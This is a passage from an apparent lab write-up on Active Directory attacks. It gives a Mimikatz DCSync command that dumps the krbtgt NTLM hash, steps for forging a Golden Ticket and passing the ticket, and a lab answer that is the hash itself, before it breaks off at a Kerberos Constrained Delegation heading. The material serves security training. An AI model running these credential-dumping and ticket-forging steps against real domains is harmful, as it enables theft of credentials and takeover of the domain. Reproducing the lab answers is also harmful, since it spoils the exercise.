 ### Notes

* `/all` option in `lsadump::dcsync` dumps hashes of all accounts.
* Obtained NTLM hash can be used for **Pass-the-Hash attacks**.



## Golden Ticket

**Q1** Practice the techniques shown in this section. What is the NTLM hash of the krbtgt user?\
\


***

### Objectives

1. Retrieve the **NTLM hash** of the `krbtgt` account using DCSync
2. Obtain the Domain SID using PowerView
3. Generate a Golden Ticket with Mimikatz and inject it into the session (Pass-the-Ticket)
4. Verify the ticket (klist, access shares)
5. Summarize mitigation and detection strategies

***



#### 1) Run Mimikatz DCSync to extract `krbtgt`

1. Place `mimikatz.exe` on the lab machine (or use a privileged machine)
2. Open an elevated Command Prompt and run `mimikatz.exe`

<figure><img src="https://97192284-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FgJzvqFCnTpw25MQy2FcH%2Fuploads%2Fo1WFFlPVAnnqLMNxbEaN%2FScreenshot%202025-09-13%20at%203.43.37%E2%80%AFPM.png?alt=media&#x26;token=ffaa796b-4a4a-40b0-97b3-15dba864abd3" alt=""><figcaption></figcaption></figure>

```
mimikatz # lsadump::dcsync /domain:eagle.local /user:krbtgt
```

* The output will display the `krbtgt` account credentials, including the **NTLM hash** and Kerberos keys (AES) if available
* Example (from the lab):

```
ntlm- 0: db0d0630064747072a7da3f7c3b4069e
```

**Answer :** db0d0630064747072a7da3f7c3b4069e



## Kerberos Constrained Delegation

***

**Q1** Use the techniques shown in this section to gain access to the DC1 domain controller and submit the contents of the flag.txt file.

### Overview
